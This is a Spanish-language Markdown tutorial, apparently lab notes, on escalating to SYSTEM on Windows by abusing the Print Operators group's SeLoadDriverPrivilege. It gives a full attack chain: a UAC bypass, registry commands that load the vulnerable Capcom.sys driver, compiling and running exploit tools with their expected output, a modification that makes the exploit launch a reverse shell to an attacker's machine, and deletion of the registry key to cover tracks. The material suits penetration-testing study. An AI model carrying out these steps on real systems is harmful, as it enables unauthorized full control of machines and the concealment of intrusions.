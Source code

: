 # 🔐 Windows Privilege Escalation - Print Operators

## 🧑‍💻 ¿Qué es el grupo Print Operators?

**Print Operators** es un grupo privilegiado en sistemas Windows, especialmente en entornos de dominio. Sus miembros tienen acceso a operaciones críticas como:

- Administrar, crear, compartir y eliminar impresoras conectadas a un **Controlador de Dominio (DC)**
- Iniciar sesión localmente en un DC
- Apagar el sistema
- Poseen el privilegio **SeLoadDriverPrivilege**, que permite **cargar o descargar controladores (drivers) en el kernel**

Este último privilegio puede ser explotado para lograr una **escalada de privilegios a SYSTEM**, si conseguimos cargar un driver malicioso o vulnerable.

---

## 🔎 Verificación de privilegios

Comando:

```cmd
whoami /priv
```

En una sesión **no elevada**, probablemente no verás `SeLoadDriverPrivilege` en la lista. Esto se debe a que necesitas una **sesión elevada** (con token completo) para que aparezca.

---

## 🔓 Elevación mediante bypass de UAC

Si no tienes acceso a una GUI para ejecutar un proceso como administrador, puedes utilizar una herramienta como **UACMe**, que permite evadir el control de cuentas de usuario (UAC) desde la línea de comandos.

📦 [UACMe en GitHub](https://github.com/hfiref0x/UACME)

Esto te permitirá lanzar procesos elevados sin necesidad de interacción del usuario, obteniendo así un token completo con acceso a `SeLoadDriverPrivilege`.

---

## ⚙️ Preparar el entorno: Referencia al driver

Descarga el driver vulnerable `Capcom.sys` y colócalo, por ejemplo, en `C:\Tools\Capcom.sys`.

A continuación, creamos dos entradas de registro bajo `HKEY_CURRENT_USER` para registrar el driver con el sistema.

```cmd
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

✅ Esto emula la forma en que los drivers se registran normalmente en `HKLM\SYSTEM\CurrentControlSet\Services`, pero en este caso lo hacemos en HKCU para no requerir privilegios de administrador.

📌 El prefijo especial `\??\` representa una **NT Object Path**. El API de Win32 lo traducirá internamente al path real (`C:\Tools\Capcom.sys`) al cargar el driver.

---

## 📄 Verificar que el driver no está cargado

Utiliza **DriverView** de NirSoft para listar todos los controladores cargados actualmente en el sistema.

📦 [DriverView – NirSoft](https://www.nirsoft.net/utils/driverview.html)

```powershell
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -Pattern Capcom
```

---

## 🛠️ Compilar y ejecutar EnableSeLoadDriverPrivilege

Este programa habilita el privilegio `SeLoadDriverPrivilege` en el token del proceso y ejecuta la función `NtLoadDriver()` para cargar el driver referenciado en el registro.

### 📥 Código fuente

📄 [EnableSeLoadDriverPrivilege.cpp (GitHub)](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp)

### ⚙️ Compilación

Abre un símbolo del sistema de **Visual Studio 2019 Developer Command Prompt** y ejecuta:

```cmd
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

Esto generará `EnableSeLoadDriverPrivilege.exe`.

### ▶️ Ejecución

```cmd
EnableSeLoadDriverPrivilege.exe
```

✅ Si todo va bien, verás el privilegio `SeLoadDriverPrivilege` como **Enabled** y una llamada exitosa a `NtLoadDriver`.

Ejemplo de salida esperada:

```
whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeLoadDriverPrivilege        Enabled
...
NTSTATUS: 00000000, WinError: 0
```

---

## ✅ Verificar que el driver ha sido cargado

Repite el escaneo con DriverView para asegurarte de que `Capcom.sys` está cargado:

```powershell
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -Pattern Capcom
```

---

## 💣 Ejecutar exploit con Capcom.sys

Ahora que el driver está cargado, podemos explotarlo para ejecutar código con privilegios SYSTEM. Podemos usar la herramienta de ExploitCapcom después de compilarla con VisualStudio.

📦 [ExploitCapcom en GitHub](https://github.com/tandasat/ExploitCapcom)

```cmd
ExploitCapcom.exe
```

Salida esperada:

```
[*] Capcom.sys exploit
[*] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

✅ Tendrás una shell como **NT AUTHORITY\SYSTEM**

---

## 🧱 Alternativa sin GUI: Reverse Shell

Si no tienes acceso a un entorno gráfico o prefieres obtener una shell remota, edita `ExploitCapcom.cpp` y reemplaza la línea 292:

```cpp
TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
```

por:

```cpp
TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

Compila el binario y escucha con netcat (o similar) desde tu máquina atacante. También puedes usar un bind shell o payload que agregue un usuario.

---

## 🤖 Automatización con EoPLoadDriver

Podemos usar una herramienta como **EoPLoadDriver** para automatizar el proceso completo:

- Habilita el privilegio
- Crea la clave de registro
- Ejecuta `NtLoadDriver`

📦 [EoPLoadDriver en GitHub](https://github.com/TarlogicSecurity/EoPLoadDriver/)

```cmd
EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\Tools\Capcom.sys
```

Salida esperada:

```
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-...-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

Después, ejecuta `ExploitCapcom.exe` como antes.

---

## 🧹 Limpieza

Para cubrir rastros, elimina la clave de registro que creaste:

```cmd
reg delete HKCU\System\CurrentControlSet\CAPCOM
```

Confirma con **Yes** cuando se te pregunte.

---

## ⚠️ Limitaciones

A partir de **Windows 10 versión 1803**, **ya no es posible cargar drivers desde HKEY_CURRENT_USER**, lo cual **invalida esta técnica en versiones modernas**.

---
